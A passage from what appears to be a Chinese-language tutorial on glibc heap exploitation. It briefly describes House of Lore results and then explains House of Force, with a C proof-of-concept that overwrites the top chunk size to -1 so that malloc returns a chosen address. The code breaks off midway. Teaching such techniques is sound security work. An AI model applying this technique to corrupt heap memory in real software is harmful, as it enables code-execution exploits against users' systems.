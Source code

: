 * 运行效果

![house_of_lore_result](../pictures/heap/house_of_lore/house_of_lore_result.png)

可以看到最后一次 malloc(len) 返回 fake_chunk 块所属的地址范围

### House Of Force

针对 top chunk 的攻击

对 top chunk 的 size 进行修改成一个非常大的值(比如-1)

这就保证所有的 malloc() ,top chunk 均可满足要求,不会调用 mmap

假设攻击者想使得 malloc() 返回地址 P,则任何 size 的 &top_chunk - P,都会被分配

```C
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc";

struct chunk_structure
{
    size_t prev_size;
    size_t size;
    struct chunk_structure *fd;
    struct chunk_structure *bk;
    char buf[10]; // padding
};

int main()
{
    struct chunk_structure *chunk, *top_chunk;
    unsigned long long *ptr;
    size_t requestSize, allotedSize;

    //void *victim = main;

    printf("%p\n", victim);

    // First, request a chunk, so that we can get a pointer to top chunk
    ptr = malloc(256);
    chunk = (struct chunk_structure *)(ptr - 2);
    printf("%p\n", chunk);

    // lower three bits of chunk->size are flags
    allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

    // top chunk will be just next to 'ptr'
    top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);
    printf("%p\n", top_chunk);

    // here, attacker will overflow the 'size' parameter of top chunk
    top_chunk->size = -1; // Maximum size
```
